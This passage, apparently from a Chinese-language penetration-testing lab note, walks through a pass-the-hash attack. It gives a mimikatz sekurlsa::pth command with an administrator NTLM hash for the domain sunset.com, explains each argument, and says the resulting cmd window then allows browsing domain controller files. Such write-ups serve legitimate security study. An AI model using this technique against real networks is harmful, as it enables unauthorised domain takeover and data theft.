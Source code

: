 2. 进行`pth`攻击
    
    ```python
    mimikatz # sekurlsa::pth /user:administrator /domain:sunset.com /ntlm:f98564f9c7fab916678466075899f6e1 /run:cmd
    ```
    
    - **`sekurlsa::pth`**
        
        执行 PTH 攻击的核心命令。
        
    - **`/user:administrator`**
        
        指定伪造认证的用户名，这里是 `administrator`
        
    - **`/domain:**sunset.com`
        
        指定域名或工作组名称，这里是 `sunset.com`
        
    - **`/ntlm:**f98564f9c7fab916678466075899f6e1`
        
        指定目标用户的 NTLM 哈希值。
        
        该哈希 `f98564f9c7fab916678466075899f6e1`
        
    
    执行完后会弹出一个`cmd`弹窗，里面使用的票据就是伪造的用户的
    
    ![image.png](image%203.png)
    
3. 然后可以查看域控文件等
    
    ![image.png](image%204.png)
    